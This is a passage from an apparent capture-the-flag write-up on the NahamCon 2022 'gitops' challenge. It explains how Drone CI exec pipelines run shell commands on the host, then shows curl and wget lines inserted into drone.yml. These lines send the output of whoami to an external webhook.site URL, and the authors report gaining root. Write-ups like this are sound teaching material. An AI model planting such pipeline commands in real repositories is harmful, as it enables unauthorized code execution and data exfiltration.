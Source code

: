   After some quick research, we can understand that drone is the application that automates the process to keep the webserver up to date.

  > Drone by Harness™ is a modern Continuous Integration platform that empowers busy teams to automate their build, test and release workflows using a powerful, cloud native pipeline engine. *https://docs.drone.io/*

  - Navigating the docs, we found an interesting feature, **Exec Pipeline** *https://docs.drone.io/pipeline/exec/overview/*

    ```
    An exec pipeline executes shell commands directly on the host machine without isolation. This is useful for workloads that need to run on the host, or are poorly suited for execution inside containers.
    ```

  - The _Drone.yml_ file in the web repository is probably the drone config file. And from the _README.md_ we can assume it gets run when we make a pull request to ensure our new code passes all the required checks.

- **Web.challenge.nahamcon.com**

  - This is the webserver, in the `ReadMe.md` from the Web repository, we learned that every minute, the GitOps system will push the Master branch to this server.

    ```
    1. Our gitops system will pull your changes every minute and update the website automatically.
    ```

  - We can assume this is the server containing the flag.

## Testing for Remote Code Execution

In our initial test, we tried to contact a webhook from `https://webhook.site/`. We added the following code to `drone.yml`.

```
      - curl https://webhook.site/2289b2a6-580c-4091-90a4-4356e97c6fc0/$(whoami)
      - wget https://webhook.site/2289b2a6-580c-4091-90a4-4356e97c6fc0/$(whoami)
```

![Initial Testing](/static/images/nahamcon-ctf-2022/gitops/drone_whoami.png)

**Note:** We inserted a request with `curl` and with `wget` in case one of them is not installed on the system.

We can now check our webhook to see if the commands were successfully executed, and we can see two new requests, one with `curl` and one with `wget`. It worked, and we even have root privileges over the target machine!

![Webhook.site Result](/static/images/nahamcon-ctf-2022/gitops/webhook_whoami.png)

## Bonus, How to get command output without webhook

In this challenge, the target machine is connected to internet, but what if it was only accessible within the local network, or if it had a very strict firewall policy and you can't exfiltrate data via the WAN network ?
